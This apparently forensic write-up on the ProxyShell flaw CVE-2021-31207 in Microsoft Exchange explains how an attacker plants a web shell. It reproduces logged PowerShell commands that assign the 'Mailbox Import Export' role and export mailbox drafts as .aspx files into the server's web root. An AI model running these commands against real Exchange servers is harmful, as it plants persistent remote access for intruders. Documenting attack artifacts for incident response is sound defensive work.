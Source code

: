 Certificate found with webshell embedded inside

---

## **CVE-2021-31207**

This vulnerability allows the attacker to write files. As soon as the role “Import Export Mailbox” is assigned to the impersonated user, and the attacker has the ability to execute PowerShell commands. The command “New-MailboxExportRequest” can be used to export the target mailboxes to any path as a PST file with extension “.aspx”. This will decodes the encoded web shell in the email and writes it to the newly created .aspx file.

MSExchange Management "ManagementRoleAssignmen" artifact snapshot:

```python
New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'admin@xxxxx.com'\nxxxxx..com/xxxxx-OU/xxxxx  IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote

----------------------------------------------------------------------------------------

New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'admin@xxxxx.com'\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n1054

----------------------------------------------------------------------------------------

New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'admin@xxxxx.com'\nxxxxx..com/xxxxx-OU/xxxxx  IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

----------------------------------------------------------------------------------------

New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'admin@xxxxx.com'\nxxxxx..com/xxxxx-OU/xxxxx  IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

----------------------------------------------------------------------------------------

New-ManagementRoleAssignment\n-Role 'Mailbox Import Export' -User 'admin@xxxxx.com'\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

```

MSExchange Management "MailboxExportRequest" artifact snapshot:

```python
New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\rksgzvccymzrvmcv.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'wefwefwef''\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n10544

----------------------------------------------------------------------------------------

New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\rljmxnolhfarldjz.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'erertte.aspx''\nxxxxx..com/xxxxx-OU/xxxxxIT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868

----------------------------------------------------------------------------------------

New-MailboxExportRequest\n-Mailbox 'admin@xxxxx.com' -FilePath '\\\\localhost\\c$\\inetpub\\wwwroot\\aspnet_client\\bbder.aspx' -IncludeFolders ('#Drafts#') -ContentFilter 'Subject -eq 'xazldaoqixdqcfwq''\nxxxxx..com/xxxxx-OU/xxxxx IT/Darksys0x_user A. Admin\nS-1-5-21-3061107108-181721125-1482027129-1506\nS-1-5-21-3061107108-181721125-1482027129-1506\nRemote-PowerShell-Unknown\n33868
```